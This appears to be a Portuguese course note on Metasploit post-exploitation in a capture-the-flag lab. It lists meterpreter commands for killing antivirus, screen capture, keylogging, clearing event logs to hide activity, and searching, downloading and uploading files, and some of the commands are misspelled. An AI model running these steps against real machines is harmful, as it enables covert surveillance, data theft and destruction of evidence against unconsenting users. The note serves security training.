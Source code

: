 # Pos exploração - Metaploit extração de dados

    Aqui objetio é praticar a exploração de dados e navegações, experimentando ferramentas automatizantes.

    Vamos simular um Capture de flag, para encontrar o arquivo Flag.

    Aqui ja estamos com a sessão estabelecida usando o meterpreter.

▶️ ⭕ ✒️ 👁️
⭕ https://www.youtube.com/embed/E1E7URK9vhg?controls=0&disablekb=1&enablejsapi=1&fs=0&iv_load_policy=3&modestbranding=1&showinfo=0&rel=0&html5=1&cc_load_policy=0&origin=https%3A%2F%2Fweb.dio.me&widgetid=1&forigin=https%3A%2F%2Fweb.dio.me%2Ftrack%2Fsantander-ciberseguranca-2025%2Fcourse%2Fpos-exploracao%2Flearning%2Ffc8388ed-310d-45cf-bb33-bafa016c1120%3Fautoplay%3D1&aoriginsup=1&vf=6

## Extraindo

✒️ Vamos começar Matando o antviruz para ele não nos atrapalhar ou denunciar.
▶️ run killav   (Mas não funciona, temos outras saidas)

▶️ run post/windows/manage/killav  (sucesso)


✒️ VNC - criamos uma nova sessão e agora estamos espelhando a janela do usuarios capturar a tela, não interagimos igual um TeamViwer mas funciona
▶️ run vnc


✒️ screenshare - Transmite a tela no nosso navegador, para vizualisarmos tudo.
▶️ screenshare

✒️ keyscan_start - Um snefer, vai campturar o teclado, raptando tudo que o usuario escreveu
▶️ keyscan_start
▶️ keyscan_dump (( Para Nos passar tudo que foi digitado))
▶️ keyscan_stop (( Interrompemos o snefer))

✒️ Clearev - Limpa logs do computador para nos manter furtivos
▶️ clearev

## Extraindo de Verdade Agora

✒️ Aqui vamos finalmente rastrear, buscando os pelo ssitema alvo arquivos de acordo com nossos filtros
▶️ sear -d C:/Users - f *.txt

✒️ Download - Vamos baixar nosso alvo, temos alguns parametros para melhorar o processo
    -a enable adaptive dowload buffer size
    -b set the initial block size for the dowload
    -c rusem getting a partially-dowload file
    -h helpp banner
    -l set limit of retires (padrão zero 0)
    -r download recursively
    -t timestamp downloade files
▶️ download c:/user/cassiano/Documents/tete.txt


✒️ Upload - enviar arquivos nosso direto para a maquina do alvo
▶️ upload './arquivo' 'destino'